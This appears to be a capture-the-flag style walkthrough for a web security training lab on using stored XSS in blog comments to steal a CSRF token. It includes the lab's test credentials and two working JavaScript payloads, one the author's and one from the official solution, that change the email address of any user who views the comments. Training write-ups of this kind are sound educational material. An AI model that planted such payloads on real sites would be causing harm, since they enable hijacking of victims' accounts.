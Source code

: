 Title: Exploiting XSS to bypass CSRF defenses
Level: PRACTITIONER
Desc:  This lab contains a stored XSS vulnerability in the blog comments function. To solve the lab, exploit the vulnerability to steal a CSRF token, which you can then use to change the email address of someone who views the blog post comments.
You can log in to your own account using the following credentials: wiener:peter 
Hint: You cannot register an email address that is already taken by another user. If you change your own email address while testing your exploit, use a different email address for the final exploit you deliver to the victim. 

# Walkthrough:

This one worked for me.
```
<script>
function hax(){
  var token = document.getElementsByName('csrf')[0].value;
  var cookie = document.cookie;
  var data = new FormData();
  data.append('csrf', token);
  data.append('email', 'teset@test.sss');

  fetch('/my-account/change-email', {
  method: 'POST',
  mode: 'no-cors',
  body: data
});
}
window.onload =  hax;
</script>
```

Script from the solution:
```
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```
